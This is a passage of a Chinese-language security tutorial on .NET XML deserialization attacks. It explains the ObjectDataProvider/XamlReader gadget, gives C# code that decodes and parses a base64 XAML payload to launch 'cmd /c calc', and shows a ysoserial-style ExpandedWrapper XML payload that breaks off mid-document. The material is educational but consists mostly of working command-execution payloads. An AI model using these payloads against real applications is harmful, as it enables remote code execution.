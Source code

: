 - xmlns:c 引用了System.Diagnostics命名空间起别名为c  
- d:Key=&#34;&#34; 起别名为空，在xaml语法中，Key这个键值必须有。  
- ObjectType表示对象类型  
- d:Type 等同于typeof()  
- MethodName是ObjectDataProvider的属性，传递一个Start等于调用Start方法。  
- c:Process等同于`System.Diagnostics.Process`  

整个xaml被解析之后，等同于创建了一个`ObjectDataProvider`对象，该对象又会自动调用`System.Diagnostics.Process.Start(&#34;cmd.exe&#34;.&#34;/c calc&#34;)`  
因为是xaml的语言，所以我们可以使用`XamlReader.Parse()`来解析它，运行之后弹出`calc`。其中`base64`的内容，正是上面的`payload`  
```c#  
using System;  
using System.Text;  
using System.Windows.Markup;  
  
namespace XmlDeserialization  
{  
    class Program  
    {  
        static void Main(string[] args)  
        {  
            string p = &#34;PFJlc291cmNlRGljdGlvbmFyeSAKICAgICAgICAgICAgICAgICAgICB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiAKICAgICAgICAgICAgICAgICAgICB4bWxuczpkPSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCIgCiAgICAgICAgICAgICAgICAgICAgeG1sbnM6Yj0iY2xyLW5hbWVzcGFjZTpTeXN0ZW07YXNzZW1ibHk9bXNjb3JsaWIiIAogICAgICAgICAgICAgICAgICAgIHhtbG5zOmM9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PXN5c3RlbSI&#43;CiAgICA8T2JqZWN0RGF0YVByb3ZpZGVyIGQ6S2V5PSIiIE9iamVjdFR5cGU9IntkOlR5cGUgYzpQcm9jZXNzfSIgTWV0aG9kTmFtZT0iU3RhcnQiPgogICAgICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4KICAgICAgICAgICAgPGI6U3RyaW5nPmNtZDwvYjpTdHJpbmc&#43;CiAgICAgICAgICAgIDxiOlN0cmluZz4vYyBjYWxjPC9iOlN0cmluZz4KICAgICAgICA8L09iamVjdERhdGFQcm92aWRlci5NZXRob2RQYXJhbWV0ZXJzPgogICAgPC9PYmplY3REYXRhUHJvdmlkZXI&#43;CjwvUmVzb3VyY2VEaWN0aW9uYXJ5Pg==&#34;;  
            byte[] vs = Convert.FromBase64String(p);  
            string xml = Encoding.UTF8.GetString(vs);  
            XamlReader.Parse(xml);  
            Console.ReadKey();  
        }  
    }  
}  
```  
此时，我们就可以直接用`ObjectDataProvider`调用`XamlReader.Parse()`方法了。  
此时我们再来看一下yso生成的payload，就一目了然了。  
```xml  
&lt;?xml version=&#34;1.0&#34;?&gt;  
&lt;root type=&#34;System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&#34;&gt;  
    &lt;ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34; xmlns:xsd=&#34;http://www.w3.org/2001/XMLSchema&#34; &gt;  
        &lt;ExpandedElement/&gt;  
        &lt;ProjectedProperty0&gt;  
            &lt;MethodName&gt;Parse&lt;/MethodName&gt;  
            &lt;MethodParameters&gt;  
                &lt;anyType xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34; xmlns:xsd=&#34;http://www.w3.org/2001/XMLSchema&#34; xsi:type=&#34;xsd:string&#34;&gt;  
                    &lt;![CDATA[&lt;ResourceDictionary xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34; xmlns:d=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34; xmlns:b=&#34;clr-namespace:System;assembly=mscorlib&#34; xmlns:c=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&gt;&lt;ObjectDataProvider d:Key=&#34;&#34; ObjectType=&#34;{d:Type c:Process}&#34; MethodName=&#34;Start&#34;&gt;&lt;ObjectDataProvider.MethodParameters&gt;&lt;b:String&gt;cmd&lt;/b:String&gt;&lt;b:String&gt;/c calc&lt;/b:String&gt;&lt;/ObjectDataProvider.MethodParameters&gt;&lt;/ObjectDataProvider&gt;&lt;/ResourceDictionary&gt;]]&gt;  
                &lt;/anyType&gt;  
            &lt;/MethodParameters&gt;  
```